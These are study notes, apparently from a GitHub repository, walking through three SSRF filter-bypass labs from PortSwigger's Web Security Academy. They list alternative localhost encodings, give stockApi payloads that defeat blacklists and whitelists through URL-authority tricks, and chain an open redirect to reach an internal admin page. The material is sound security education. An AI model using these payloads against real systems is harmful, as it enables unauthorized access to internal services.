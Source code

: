 # Section 18: SSRF - Bypassing Security

## Bypassing Blacklists

same stockApi ➡️ Send to the Repeater ➡️ modify URL

```
stockApi=http://localhost/
```

Error:

_External stock check blocked for security reasons_

A possible implementation to prevent unauthorized requests is with a **black list** (If request in blacklist then block it)

### Other ways to refer to localhost:

```
lOcaLHost
127.0.0.1
127.1
017700000001
0x7f000001
2130707433
```

```
stockApi=http://lOcaLHost/
```

```
stockApi=http://127.1/
```

Other options
- URL-encode all characters
- double encode it
- register a domain, which is not going to be in the blacklist, and have that resolved to 127.0.0.1

now the admin page is being displayed

---

## Bypassing Whitelists

same stockApi ➡️ Send to the Repeater ➡️ modify URL

```
stockApi=http://localhost/
```

Error:

_External stock check host must be stock.weliketoshop.net_

First try previous approach, but the target is using a whitelist (list of words that can only be sent)

**Send a request that contains this domain:**

```
stockApi=http://stock.weliketopshop.net/
```

Error:

_Could not connect to external stock check service_

**Login as user to the service**

```
stockApi=http://zaid@stock.weliketopshop.net/
```

same error

**Exploit authority in the URL**

also double URL encode the hash symbol

```
stockApi=http://localhost#@stock.weliketopshop.net/
```

now we can see the admin page

> rfc3986, how parsers process URL

---

## Chaining Open Redirection with SSRF to Bypass Restrictive Filters

same stockApi ➡️ Send to the Repeater ➡️ modify URL ➡️ URL decode

```
stockApi=/product/stock/check?productId=4&storeId=1
```

**Try localhost**

```
stockApi=http://localhost/
```

Error:

_Invalid external stock check url 'Invalid URL'_

But found that a next link URL has a similar path with path the product and productId

**URL in the same domain + load a product + redirect to localhost**

```
stockApi=https://ac5a1ff21e4de571c.web-security-academy.net/product/nextProduct?currentProductId=4&path=http://localhost/
```


Error:

_Invalid external stock check url 'Invalid URL'_

Now try:

```
stockApi=/product/nextProduct?currentProductId=4&path=http://localhost/
```

Error:

_Missing parameter 'path'_

Now try:

```
stockApi=/product/nextProduct?path=http://localhost/
```

now we get the admin page in the localhost

---

